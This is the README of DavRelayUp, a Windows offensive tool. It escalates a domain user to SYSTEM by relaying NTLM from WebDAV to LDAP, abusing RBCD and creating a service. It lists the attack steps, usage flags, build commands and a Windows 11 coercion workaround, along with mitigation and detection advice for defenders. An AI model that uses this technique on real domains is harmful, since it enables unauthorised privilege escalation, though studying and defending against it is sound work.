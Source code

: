 
# DavRelayUp
A quick and dirty port of [KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp) with modifications to allow for NTLM relay from webdav to LDAP in order to streamline the abuse of the following attack primitive:

0. (Optional) New machine account creation ([New-MachineAccount](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)) 
1. Force start the WebClient service
2. Start webdav relay server (GoRelayServer - a golang DLL that is embeded in DavRelayUp using Costura.Fody)
3. Local machine account auth coercion ([SharpSystemTriggers](https://github.com/cube0x0/SharpSystemTriggers/tree/main/SharpEfsTrigger))
4. NTLM relay to LDAP
4. Add RBCD privs and obtain privileged ST to local machine ([Rubeus](https://github.com/GhostPack/Rubeus/))
5. Using said ST to authenticate to local Service Manager and create a new service as NT/SYSTEM. ([SCMUACBypass](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82))

**This is essentially a universal no-fix local privilege escalation in domain-joined windows workstations where LDAP signing is not enforced (the default settings).**

## Windows 11 Fix
The original DavRelayUp uses the RPC interface `c681d488-d850-11d0-8c52-00c04fd90f7e` with the `lsarpc` pipe to trigger PetitPotam. In Windows 11, the efslsaext.dll module is not loaded by LSASS by default anymore in Windows 11. This fix uses the `df1941c5-fe89-4e79-bf10-463657acf44d` RPC interface, which is used by `efssvc.dll` to trigger PetitPotam. However, the EFS service needs to be enabled. This fix automatically starts the `EFS` service if not started.

## Usage
```
DavRelayUp - Relaying you to SYSTEM, again...

Usage: DavRelayUp.exe [-c] [-cn COMPUTERNAME] [-cp PASSWORD | -ch NTHASH]

RBCD Options:
    -c   (--CreateNewComputerAccount) Create new computer account for RBCD. Will use the current authenticated user.
    -cn  (--ComputerName)             Name of attacker owned computer account for RBCD. (default=DAVRELAYUP$)
    -cp  (--ComputerPassword)         Password of computer account for RBCD. (default=RANDOM [if -c is enabled])
    -ch  (--ComputerPasswordHash)     Password NT hash of computer account for RBCD. (either -cp or -ch must be specified)
    -i   (--Impersonate)              User to impersonate. Should be a local administrator in the target computer. (default=Administrator)

KrbSCM Options:
    -s   (--ServiceName)              Name of the service to be created. (default=KrbSCM)
    -sc  (--ServiceCommand)           Service command [binPath]. (default = spawn cmd.exe as SYSTEM)

General Options:
    -p  (--Port)                     Port for WebDAV Server (default=55555)
    -d  (--Domain)                   FQDN of domain. (Optional)
    -dc (--DomainController)         FQDN of domain controller. (Optional)
    -ssl                             Use LDAP over SSL. (Optional)
    -n                               Use CreateNetOnly (needs to be on disk) instead of PTT when importing ST (Optional)
    -v  (--Verbose)                  Show verbose output. (Optional)
    -h  (--Help)                     Show help
```

### Known Issues

If DavRelayUp gets stuck at one of these stages - try using a different port by specifying [-p] flag
```
DavRelayUp - Relaying you to SYSTEM, again...

[+] WebClient Service started successfully
[+] Starting Relay Server on Port 55555
[+] Coercing System Authentication
```
```
DavRelayUp - Relaying you to SYSTEM, again...

[+] WebClient Service started successfully
[+] Starting Relay Server on Port 55555
[+] Coercing System Authentication
[+] WebDAV Request: No Authorization header
[+] WebDAV Response: Sending 401 Unauthorized with "WWW-Authenticate: NTLM" header
```

## Examples

https://github.com/Dec0ne/DavRelayUp/assets/54464773/4e791e8b-783c-48d3-b46b-8b22e2661ea1

![example](Images/example_rbcd.png)


## Building

0. Build GoRelayServer (already built and ready in this repository but in case you want to do it yourself)
   ```
   PS C:\Tools\DavRelayUp> cd GoRelayServer
   PS C:\Tools\DavRelayUp\GoRelayServer> go build --buildmode=c-shared -ldflags="-s -w"  -o "../DavRelayUp/Costura64/GoRelayServer.dll" main.go
   ```
   This will build the GoRelayServer DLL and save it in "DavRelayUp\DavRelayUp\Costura64\GoRelayServer.dll" -> This is the folder from which Costura.Fody will embed it in the final DavRelayUp.exe executable.
1. Open KrbRelayUp.sln in Visual Studio 2019
2. Make sure that Solution Configuration is set to Release and hit build (CTRL+SHIFT+B)

## TODO
- [ ] Add ShadowCred attack as a RELAY method
- [ ] Add U2U support to allow for the attack without the need for a machine account

## Mitigation & Detection
* Enforce LDAP Signing and LDAP Channel Binding to mitigate the relay of the machine account auth to LDAP. This can be configured via the "Domain Controller: LDAP server signing requirements" GPO. (Thank you [Will Dormann](https://twitter.com/wdormann) for your [tweet](https://twitter.com/wdormann/status/1518999885550440451) on this matter)
* Make the attack requirements harder to obtain by setting the [MS-DS-Machine-Account-Quota attribute](https://docs.microsoft.com/en-us/windows/win32/adschema/a-ms-ds-machineaccountquota) in AD to **0**, thus removing the ability of any user to add a new machine account to the domain. This is a dangerous default setting in AD - make sure you change it.
* Setting the flag "Account is sensitive and cannot be delegated" on all admin accounts (or put them in protected users) would make it so there is no account with the privileges required that can be delegated in order to complete the attack path. (Thanks to [Christoph Falta](https://twitter.com/cfalta) for this [tweet](https://twitter.com/cfalta/status/1519309206230339585))
* Resources for possible monitoring and detection rules:
    1. https://github.com/tsale/Sigma_rules/blob/main/windows_exploitation/KrbRelayUp.yml ([@Kostastsale](https://twitter.com/Kostastsale))
    2. https://twitter.com/SBousseaden/status/1518976397364056071 ([@SBousseaden](https://twitter.com/SBousseaden)). Mainly the rule about authentication to Service Manager via Kerberos from 127.0.0.1, Great Work!.
    3. https://www.linkedin.com/posts/john-dwyer-xforce_threathunting-threatdetection-blueteam-activity-6924739962131140608-py45/ ([John Dwyer](https://www.linkedin.com/in/john-dwyer-xforce/) [@TactiKoolSec](https://twitter.com/TactiKoolSec))


## Acknowledgements
* [James Forshaw](https://twitter.com/tiraniddo) for figuring out how to [use Kerberos Service Tickets for LOCAL authentication to Service Manager](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82) which was the missing piece of the puzzle in order to make this attack primitive **local only** (before that, we had to export the ST to a remote machine in order to use it and gain privileged access to our target machine). 
* [Kevin Robertson](https://twitter.com/kevin_robertson) for his [New-MachineAccount](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1) functionality which was used in this project.
* [Cube0x0](https://twitter.com/cube0x0) for his [SharpSystemTriggers](https://github.com/cube0x0/SharpSystemTriggers/tree/main/SharpEfsTrigger) functionality (specifically SharpEfsTrigger) which was used in this project.
* [Elad Shamir](https://twitter.com/elad_shamir) for his research on RBCD - [Wagging the Dog](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [Will Schroeder](https://twitter.com/harmj0y) and everyone who contributed to [Rubeus](https://github.com/GhostPack/Rubeus/) which we all know and love. Basically all the RBCD-S4U functionality was taken from there.
* [Orange-Cyberdefense](https://github.com/Orange-Cyberdefense) for their work on [GOAD](https://github.com/Orange-Cyberdefense/GOAD), the Active Directory research lab I am using which you can see in the demo video and images.
* [Shantanu Khandelwal](https://twitter.com/shantanukhande) for his cool blog post on [Red Team: How to embed Golang tools in C#](https://medium.com/@shantanukhande/red-team-how-to-embed-golang-tools-in-c-e269bf33876a)
* GoRelayServer was built upon the work done on [go-ldap](https://github.com/go-ldap/ldap) which I modified to allow for the webdav-to-ldap NTLM relay. Also thanks for [Mariusz Banach](https://twitter.com/mariuszbit) for [SharpWebServer](https://github.com/mgeeky/SharpWebServer) which I used to learn how webdav NTLM authentication works and implemented it as the server listener in GoRelayServer.
